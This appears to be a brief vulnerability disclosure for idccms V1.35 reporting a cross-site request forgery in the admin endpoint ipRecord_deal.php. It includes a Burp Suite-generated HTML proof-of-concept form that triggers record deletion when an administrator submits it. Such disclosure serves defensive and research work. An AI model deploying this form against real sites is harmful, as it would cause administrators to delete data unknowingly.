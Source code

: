 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/ipRecord_deal.php?mudi=del&dataType=&dataID=1

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/ipRecord_deal.php?mudi=del&dataType=&dataID=1" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
